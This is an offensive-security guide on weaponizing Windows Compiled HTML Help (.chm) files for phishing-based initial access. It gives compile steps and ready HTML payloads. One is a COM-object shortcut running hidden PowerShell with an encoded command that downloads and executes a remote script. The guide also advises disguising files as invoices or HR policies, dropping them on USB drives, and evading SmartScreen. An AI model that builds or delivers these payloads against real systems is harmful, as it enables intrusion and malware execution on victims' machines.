










# CHM (Compiled HTML Help) Files

**Type:** Malicious Documents & File-Based Delivery  
**Platform:** Windows  
**Prerequisites:** User must open the `.chm` file manually (usually via phishing or USB drop); Windows has built-in CHM file support


---
## Overview

**CHM files** (Compiled HTML Help) are a legacy Microsoft format for help documents. Despite being designed for documentation, they support **embedded HTML, JavaScript, and ActiveX** , including the ability to run **executable code** via scripting.

Attackers weaponize `.chm` files by embedding malicious scripts or links that execute **PowerShell, CMD, or dropper EXEs** when the file is opened. This makes CHM-based initial access attractive


---
## How It Works

- The attacker crafts a `.chm` file with malicious content (e.g., an HTML file calling `mshta.exe` or `powershell.exe`).
- When the target opens the `.chm`, the embedded script is automatically rendered.
- This script executes system commands (often silently), such as downloading or running a second-stage payload.

CHM files are treated as **trusted content** in many systems, especially if stored or opened locally (e.g., `C:\Users\Public\info.chm`).


---
## Prerequisites

**Tools Needed***
- `hh.exe` (Windows Help Viewer, built-in)
- `HTML Help Workshop` (to compile `.chm`)
- Simple web server or payload generator (e.g., `msfvenom`, `python3`, `Netcat`)


---
## Steps to Implement

1. **Create Malicious HTML**



2. **Compile the HTML into `.chm` Using HTML Help Workshop.** [Download Microsoft’s HTML Help Workshop.](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)

**Steps:**

   **1 - Create a `.hhp` project file:**

```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=payload.chm
Default topic=index.html
```


   **2 - open project.hhp in `HTML Help Workshop`**
  
   


   **3 - Add `payload.html` to the project.**






   
   **4 - Compile to payload.chm.**
   





3. **Deliver the `.chm` File**
   - Email it as an attachment with a lure like “Invoice.chm”
   - Drop it on USB or shared drive

4. **Execution**

once the victim open the `.chm` file the embedded script will be rendered by `hh.exe` , resulting in a reverse shell being established.








---
## Payload/Code Snippets

- **malicious HTML payload with embedded JavaScript  ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script type="text/javascript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("calc.exe");
  </script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **malicious HTML payload with embedded VBScript ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **stealthy command execution via COM Object. ( recommended )**
```html
<html>
  <head>
    <title>Customer Service</title>
  </head>

  <body>
    <h2 align="center">Customer Service</h2>
    <h3 align="center">Please wait...</h3>

    <!-- Malicious COM object -->
    <object 
      id="shortcut" 
      classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" 
      width="1" 
      height="1">
      
      <!-- Set the command type -->
      <param name="Command" value="ShortCut">

      <!-- Launch PowerShell with obfuscated payload -->
      <param name="Item1" value=",powershell.exe, -w 1 -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AcABhAHkAbABvAGEAZAAuAHAAcwAxACcAKQA= ">
      
    </object>

    <!-- Trigger execution -->
    <script>
      shortcut.Click();
    </script>
  </body>
</html>

```


---
## Tips

- Rename `.chm` files to blend in (e.g., `manual.chm` , `HR_policy.chm`)
- CHM files execute locally without firewall triggers
- Combine with LNK or autorun.inf on USB drops
- mshta is a trusted binary (LOLBAS), commonly used with CHM
- Avoid triggering SmartScreen by serving from internal shares or trusted paths


---

## References

- [LOLBAS: mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [Microsoft HTML Help Workshop](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)
- [MITRE ATT&CK ID: T1218.001 – Signed Binary Proxy Execution: Compiled HTML File](https://attack.mitre.org/techniques/T1218/001/)
- [Weaponize .chm files with PowerShell — Nishang](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)
- [Analyzing a Malicious Compiled HTML Help File Delivering Agent Tesla](https://unit42.paloaltonetworks.com/malicious-compiled-html-help-file-agent-tesla/)

---

**_Author_** : **o-sec**
